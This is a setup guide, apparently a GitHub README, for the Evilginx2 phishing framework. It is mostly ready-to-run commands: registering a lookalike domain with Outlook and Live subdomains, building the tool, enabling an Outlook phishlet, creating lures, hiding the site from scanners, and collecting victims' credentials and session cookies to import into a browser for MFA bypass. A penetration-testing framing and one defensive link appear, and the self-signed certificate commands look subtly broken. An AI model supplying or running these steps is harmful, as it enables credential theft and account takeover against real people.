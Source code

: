 # Evilginx Setup Guide

EvilGinx is a man-in-the-middle attack framework designed to capture credentials and session cookies from users interacting with phishing sites. This tool can be used for penetration testing and security assessments, allowing security professionals to simulate phishing attacks and understand the techniques attackers might employ.
Official Documentation can be found [here](https://help.evilginx.com/docs/intro)

## Usage

**IMPORTANT!** Make sure that there is no service listening on ports `TCP 443`, `TCP 80` and `UDP 53`. You may need to shut down Apache or Nginx and any service used for resolving DNS that may be running. **evilginx2** will notify you on launch if it fails to open a listening socket on any of these ports.

By default, **evilginx2** will look for phishlets in `./phishlets/` directory and later in `/usr/share/evilginx/phishlets/`. To specify a custom path for phishlets, use the `-p <phishlets_dir_path>` parameter when launching the tool.

By default, **evilginx2** will look for HTML templates in `./templates/` directory and later in `/usr/share/evilginx/templates/`. To specify a custom path for HTML templates, use the `-t <templates_dir_path>` parameter when launching the tool.

More Tips and Tricks can be found [here](https://github.com/An0nUD4Y/Evilginx2-Phishlets)

### Infrastructure setup 

Buy a domain(NameCheap has cheap domains). Transfer domain to your VPC provider. Create "A" record. 

### NameCheap domain transfer
>>>

### DigitalOcean DNS Records
>>>
### DNS Records

Configure your DNS records as follows:
```
A    account.identity-access.online  
A    *.identity-access.online  
A    outlook.identity-access.online  
A    www.identity-access.online  
A    live.identity-access.online  
A    identity-access.online  
```

#### Installing from source

```
sudo apt-get -y install git make
git clone https://github.com/hash3liZer/evilginx2.git
cd evilginx2
make
```

You can now either run **evilginx2** from local directory like:
```
sudo ./evilginx2
```
or install it globally:
```
sudo make install
sudo evilginx
```

## Installing with Docker

```bash
docker build . -t evilginx2
```
```bash
docker run -it -p 53:53/udp -p 80:80 -p 443:443 evilginx2
```

Phishlets are loaded within the container at `/app/phishlets`, which can be mounted as a volume for configuration.


## Evilginx Commands to Get Started

Set up your server's domain and IP using the following commands:
```bash
config ipv4 external <publicIP>
config domain <yourdomain.com(ex:identity-access.online)>
```

Set up the phishlet you want to use.
```bash
phishlets hostname outlook <yourdomain.com(ex:identity-access.online)>
```

You can now `enable` the phishlet, which will initiate the automatic retrieval of Let's Encrypt SSL/TLS certificates if none are locally found for the hostname you picked:
```bash
phishlets enable outlook
```

Block unauthorized bots/scanners:
```bash
blacklist unauth
```

Your phishing site is now live. Think of the URL where you want the victim to be redirected upon successful login, and get the phishing URL like this (the victim will be redirected to `https://www.google.com`):
```bash
lures create linkedin
lures edit 0 redirect_url https://www.google.com
lures get-url 0
```

Running phishlets will only respond to phishing links generated for specific lures, so any scanners that scan your main domain will be redirected to the URL specified as `redirect_url` under `config`. If you want to hide your phishlet and make it not respond even to valid lure phishing URLs, use `phishlet hide/unhide <phishlet>` command.

You can monitor captured credentials and session cookies with:
```bash
sessions
```

To get detailed information about the captured session, with the session cookie itself (it will be printed in JSON format at the bottom), select its session ID:
```bash
sessions <id>
```

The captured session cookie can be copied and imported into the Chrome browser using the [EditThisCookie](https://chrome.google.com/webstore/detail/editthiscookie/fngmhnnpilhplaeedifhccceomclgfbg?hl=en) extension.

**Important!** If you want **evilginx2** to continue running after you log out from your server, you should run it inside a `screen` or `tmux` session.

### Alternative Installation Steps

```bash
apt-get update
apt-get upgrade -y
sudo apt install git golang-go -y
git clone https://github.com/kgretzky/evilginx2
cd evilginx2
go build
cd phishlets
git clone https://github.com/ArchonLabs/evilginx2-phishlets.git
cd evilginx2-phishlets/phishlets
mv ./* ../../
cd ../../
./evilginx2
config ipv4 external <publicIP>
config domain identity-access.online
phishlets hostname outlook identity-access.online
phishlets enable outlook
blacklist unauth
lures create outlook 
lures 
lures get-url 0
```

## Local Testing 
Start Evilginx with -developer command-line argument and it will switch itself into developer mode.
In this mode, instead of trying to obtain LetsEncrypt SSL/TLS certificates, it will automatically generate self-signed certificates.
Evilginx will generate a new root CA certificate when it runs for the first time. You can find the CA certificate at $HOME/.evilginx/ca.crt or %USERPROFILE%\.evilginx\ca.crt. Import this certificate into your certificate storage as a trusted root CA and your browsers will trust every certificate, generated by Evilginx.
Since this feature allows for local development, there is no need to register a domain at domain registrars. Just use any domain you want and set the server IP to 127.0.0.1 or your LAN IP:
    ```bash
config domain anydomainyouwant.com
config ip 127.0.0.1
    ```
It is important that your computer redirects all connections to phishing sites, to your local IP address. In order to do that, you need to modify the hosts file.
First, generate the hosts redirect rules with Evilginx, for the phishlet you want:
: phishlets hostname twitter twitter.anydomainyouwant.com
: phishlets get-hosts twitter
    ```bash
127.0.0.1 twitter.anydomainyouwant.com
127.0.0.1 abs.twitter.anydomainyouwant.com
127.0.0.1 api.twitter.anydomainyouwant.com
    ```
Copy the command output and paste it into your hosts file. The hosts file can be found at:
Linux: /etc/hosts
Windows: %WINDIR%\System32\drivers\etc\hosts
Remember to enable your phishlet and you can start using Evilginx locally (can be useful for demos too!).

```bash
    # create self-signed cert
    openssl req -x509 -newkey rsa:2048 -keyout *.identity-access.online -out *.identity-access.online.crt -days 365 -nodes
    mv *.identity-access.online.crt /phishlets
    mv *.identity-access.online.crt /phishlets
    
    ./evilginx -developer
    config autocert off
    test-certs
```

### Protecting Against Phishing Attacks

To learn how web developers can protect against MFA phishing attacks and the use of Evilginx, watch this video: [How Web Developers Can Protect Websites](https://www.youtube.com/watch?v=C-Fh4sIdY8c).

### Creating Phishlets

For guidance on creating phishlets for MFA bypass, refer to this resource: [Creating Phishlets](https://research.aurainfosec.io/pentest/hook-line-and-phishlet/).



